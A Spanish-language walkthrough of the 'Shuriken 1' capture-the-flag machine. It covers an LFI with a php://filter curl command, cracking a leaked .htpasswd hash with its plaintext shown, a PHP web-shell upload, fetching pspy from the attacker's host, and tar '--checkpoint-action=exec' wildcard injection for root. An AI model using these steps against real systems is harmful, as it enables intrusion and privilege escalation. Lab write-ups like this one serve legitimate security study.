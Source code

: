 # Shuriken 1

Tags: [[_analysis]],[[_infoLeakage]],[[_lfi]],[[_cracking]],[[_cms]],[[_webExploitation]],[[_sudoersAbusing]],[[_timeTasks]]

## Primeros pasos
(Reconocimiento).

Primero le acomodamos bien para que agarre una IP (poner modo Bridged).

Organizamos TMUX.
Hacemos un escaneo en la red para determinar la IP de la máquina.
Mediante el OUI reconocemos la máquina que vamos a atacar.

Le hacemos un ping a la máquina. (Está activa o no).
Posible máquina Linux.
Creamos un directorio como la IP o nombre de la máquina.
Ponemos la IP de la máquina en un lugar visible.
Creamos los directorios de trabajo.

Empezamos el escaneo con NMAP.

Buscamos codename con launchpad, un posible Ubuntu Bionic.

Puertos abiertos.
80 - HTTP


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

80
whatweb reporta solo el título "Shuriken", servidor apache y poco más.
El script http-enum de nmap reporta una rutas.

Hay un login, y una ruta secret donde hay una imagen secreta, pero es poca cosa.
En una ruta /js hay contenido que seguramente hagan algo.
Podemos entrar a https://beautifier.io/ y pasarle el código.
Así lo vemos mejor y lo podemos analizar.
Veo que se hace mención a una ruta:
"http://broadcast.shuriken.local"
Lo meto en el /etc/hosts y ya e resuelve.
Se menciona en el otro código: shuriken.local
Lo mismo.
Metí shuriken también.
Solo broadast.shuriken.local me manda a un panel de autenticación, las otras dos me llevan a lo mismo.

Podría brute forcear pero no tengo usuarios, y no puedo fuzzear directorios.
Podría fuzzear más potente en la web principal para ver si encuentro algo más.

En el segundo .js 
Veo que hace mención a "http://shuriken.local/index.php?referer=" 
Donde referer es un parámetro.
Desde la web no vemos mucho, hagámoslo desde curl.
PROBAR.
Remote File Inclusion.
Local File Inlusion.

Propenso a un LFI.
...referer=/etc/passwd
Procedamos a enumerar.

/etc/passwd nos da los usuarios a nivel de sistema.
root
server-management
Recordemos que tenemos 2 paneles donde poder hacer Brute Force. 

Hacer
<span style="color:#ecacb6">curl -s -X GET "http://shuriken.local/index.php?referer=php://filter/convert.base64-encode/resource=index.php"</span> :  usamos un wrapper para ver el código sin que lo interprete.
Es la misma web principal pero las funciones de php no las interpreta y las puedo ver.


Como se está aplicando Virtual Hosting y hay dominios configurados podríamos ver cosas.

Podríamos ver:
/etc/apache2/sites-enabled/000-default.conf
Nos da una ruta /etc/apache2/.htpasswd
Dentro hay una credencial.
<span style="color:#ecacb6">developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0</span>
Que es de autenticación al dominio broadcast.shuriken.local

Es un Hash, así que tratemos de crackearlo con john.
<span style="color:#88c425">john -w:/usr/share/wordlists/rockyou.txt credentials.txt</span>
developers:9972761drmfsls

Las probamos y pa dentro.

Se usa ClipBucket.
No estamos logueados.
Version 4.0

Vemos algo de añadir colección.
Pero antes veamos vulnerabilidades en Searchsploit.

Vemos unas cuantas para la versión anterior a 4.0.0, pero podríamos intentarlo.

IMPORTANTE.
Para hacer un curl a ese dominio, necesito autenticarme en la misma petición, si no, no es posible.
Se hace así
<span style="color:#88c425">curl -s -X GET "http://developers:9972761drmfsls@broadcast.shuriken.local"</span>
Continuamos.
Creamos el archivo .php para subirlo y lo subimos, nos pone success.
Perfecto... y, dónde se almacenó? xdd

Veo que al subir me dice el directorio, es como la fecha de creación pero no más.

Fuzzeemos URIs.
/files/photos/2024/06/22 ahí está nuestro archivo, lo abrimos y jugamos con el parámetro cdm.
Una reverse shell y pa deeentro.


## Escalada

Estamos como www-data
Tratamiento de la TTY.

Enumerar todo.
sudo -l :    podemos ejecutar npm como server-management
<span style="color:#379075">sudo -u user :     para ejecutar comando.</span>

Hay una forma, pero de primeras hay problemas, porque lo que pasa es que www-data está creando un archivo antes, que después el usuario server-management no tiene permisos sobre el, entonces quité eso y creé el directorio con permios 777, lo referencié, lo ejecuté y pa deeentro.

<span style="color:#bef202">Elevar privilegios a root.</span>
Hay un comando pppd con el grupo "dip" asignado, y server-management está en ese grupo, pero solo para leer.

Estamos en el grupo lpadmin.

Pero no vemos mucho más, así que analicemos tareas que se estén ejecutando a intervalos regulares de tiempo.

Juguemos con pspy
Lo descargo, lo comparto en un servidor.
Y en la máquina víctima con curl:
<span style="color:#88c425">curl 192.168.0.11/pspy64 -o pspy</span>
Le damos permisos de ejecución y ejecutamos.

Vemos un comando con tar, lo usa en un script donde engloba todos los archivos en Documents/, metemos algo ahí para ver cómo se comporta.

Podemos pensar en hacer archivos con nombres de parámetros para ejecutar comando con tar.

Sí lo hace, hagamos esa idea.
Para crear un fichero con "--", se hace así
<span style="color:#88c425">touch -- --pepe</span>
Para borrarlo
<span style="color:#88c425">rm -- -pepe</span>

Hice 

<span style="color:#88c425">touch -- --checkpoint=1</span>
<span style="color:#88c425">touch -- --checkpoint-action=exec='sh command'</span> :    para después crear el archivo "command"
El cual le asignara el SUID a la bash.

Es esperar, se lo asigna
Hacemos
/bin/bash -p 
Y pa deeeeeeentro.
Fin.



